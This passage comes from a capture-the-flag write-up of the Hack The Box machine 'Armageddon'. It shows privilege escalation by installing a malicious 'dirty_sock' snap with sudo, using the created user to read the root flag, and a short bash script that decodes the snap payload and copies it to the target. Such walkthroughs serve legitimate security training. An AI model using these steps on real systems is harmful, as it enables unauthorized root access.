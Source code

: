 Now we login as bruce, and install our malicious snap (I used the `--devmode` flag just in case):

```bash
┌──(mac㉿kali)-[~/Documents/HTB/armageddon]
└─$ ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password: 
Last login: Mon Apr  5 15:06:03 2021 from 10.10.14.56
[brucetherealadmin@armageddon ~]$ cd /tmp
[brucetherealadmin@armageddon tmp]$ sudo snap install --devmode dirty.snap 
dirty-sock 0.1 installed
[brucetherealadmin@armageddon tmp]$ su dirty_sock
Password: 
[dirty_sock@armageddon tmp]$ sudo cat /root/root.txt

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dirty_sock: 
d9...[snip]...a4b

```

That's the box!

![[Pasted image 20210405151329.png]]

Now we can cleanup our snap:

```bash
[dirty_sock@armageddon tmp]$ sudo rm dirty.snap
```

I won't delete the user or change the password, just in case it interferes with someone else's exploit.

### Automation

We can create a very simple bash script to partially automate the above:

```bash
#!/bin/bash
python3 print-snap.py | base64 -d > dirty.snap
scp dirty.snap brucetherealadmin@10.10.10.233:/tmp/dirty.snap
ssh brucetherealadmin@10.10.10.233
```

We then just need to supply Bruce's password and run the dirty snap once we're on the box with `sudo snap install --devmode /tmp/dirty.snap`.